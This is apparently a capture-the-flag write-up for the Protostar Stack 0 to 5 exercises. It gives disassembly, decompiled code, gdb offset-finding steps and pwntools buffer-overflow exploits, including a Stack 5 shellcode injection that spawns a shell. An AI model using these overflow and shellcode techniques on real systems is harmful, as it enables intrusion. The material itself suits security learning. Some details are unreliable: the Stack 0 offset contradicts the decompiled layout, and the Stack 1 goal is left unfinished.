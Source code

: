 ```yaml
---
layout: post
title: Protostar Stack Writeups
description:
date: 2025-04-23
categories:
  - pwn
  - writeup
tags:
  - stack
---
```

# Protostar Stack Writeups

## Stack 0

**GOAL** : Modify a variable

```sh
0x08048405 <+17>:	lea    eax,[esp+0x1c]
0x08048409 <+21>:	mov    DWORD PTR [esp],eax
0x0804840c <+24>:	call   0x804830c <gets@plt>

```

This takes user input and stores it at [esp+0x1c]

```sh
   0x080483fd <+9>:	    mov    DWORD PTR [esp+0x5c],0x0
   0x08048411 <+29>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:	test   eax,eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave
   0x08048434 <+64>:	ret

```

Stores 0 into a variable, then compares the variable to 0;
IF true it prints "Try Again"
If false it prints "You have changed the 'modified variable"

**Ghidra Decompiled code**
```c

void main(void)

{
  char buffer [64];
  int please_change_me;
  
  please_change_me = 0;
  gets(buffer);
  if (please_change_me == 0) {
    puts("Try again?");
  }
  else {
    puts("you have changed the \'modified\' variable");
  }
  return;
}

```


---
## Developing Exploit

1. Find the  Offset (Using gdb)
	- set breakpoints at main function and `ret` instruction 
	- run the program in gdb 
	- Create pattern to fill in buffer 
```sh
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
[+] Saved as '$_gef1'
```

- Continue and fill in the program 
- check if the is a buffer overflow

```sh
gef➤  x/wx $ebp
0x61616174:	Cannot access memory at address 0x61616174

```
- Get the buffer size
```sh
gef➤  pattern search 0x61616174
[+] Searching for '74616161'/'61616174' with period=4
[+] Found at offset 76 (little-endian search) likely

```

Buffer size = 76
Offset = 80 | because we need to override the ebp which takes up 4 bytes


**Exploit**
```python
#!/usr/bin/python3

from pwn import *

binary = "./stack0"
elf = ELF(binary)
p = process(binary)
#goal is to modify varaible
buf_size = 76
offset = 80

payload = b"A"*offset
payload += p32(0x2) # change the varible to 2

p.sendline(payload)
p.interactive()
```

## Stack 1

**Goal** : Modify the variable to be 

```
./stack1 $(python3 -c 'print("A"*64 + "\x64\x63\x62\x61")')
```

## Stack 2

Code

```c
void main(void)
{
  char buffer [64];
  int change_me;
  char *env;

  env = getenv("GREENIE");
  if (env == (char *)0x0) {
    errx(1,"please set the GREENIE environment variable\n");
  }
  change_me = 0;
  strcpy(buffer,env);
  if (change_me == 0xd0a0d0a) {
    puts("you have correctly modified the variable");
  }
  else {
    printf("Try again, you got 0x%08x\n",change_me);
  }
  return;
}
```

we need to put our exploit in the environment variable `GREENIE`

To modify the `change_me` variable we just need to fill in the buffer then put what we want to put in the `change_me` variable which is `\x0a\x0d\x0a\x0d` in this case (little endian)



```sh
export GREENIE=$(python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")')
```

```sh
/stack2 
you have correctly modified the variable
```

## Stack 3

Source 

```c
void main(void)
{
  char buffer [64];
  code *func_ptr;
  
  func_ptr = (code *)0x0;
  gets(buffer);
  if (func_ptr != (code *)0x0) {
    printf("calling function pointer, jumping to 0x%08x\n",func_ptr);
    (*func_ptr)();
  }
  return;
}

void win(void)
{
  puts("code flow successfully changed");
  return;
}
```

Our exploit needs to fill up the buffer and call the address (pointer ) of the `win` function

**Exploit**

```python 
#!/usr/bin/python3

from pwn import *

binary = "./stack3"
elf = ELF(binary)
p = process(binary)

buffer_size = 64

addr = p32(elf.sym["win"]) # address of the win function 

payload = b"A"*buffer_size
payload += addr

p.sendline(payload)
p.interactive()
```

## Stack 4

```python
#!/usr/bin/python3

from pwn import *

binary = "./stack4"
elf = ELF(binary)
p = process(binary)

win_func = p32(elf.sym['win'])
buf_size = 76

payload = b"A"*buf_size
payload += win_func

p.sendline(payload)
p.interactive()
```

## Stack 5

```c
#!/usr/bin/python

from pwn import *

binary = "./stack5"
elf = ELF(binary)
p = process(binary)

buf_size = 76
shellcode = asm(shellcraft.sh())
ret_addr = p32(0xffffcdd0) # buffer address

payload = b"\x90"*(buf_size - len(shellcode))
payload += shellcode
payload += ret_addr

log.info(f"Buffer size: {buf_size}")
log.info(f"Shellcode size: {len(shellcode)}")
log.info(f"NOP sled size: {buf_size - len(shellcode)}")
log.info(f"Return address: {hex(u32(ret_addr))}")
log.info(f"Payload: {payload}")

p.sendline(payload)
p.interactive()
```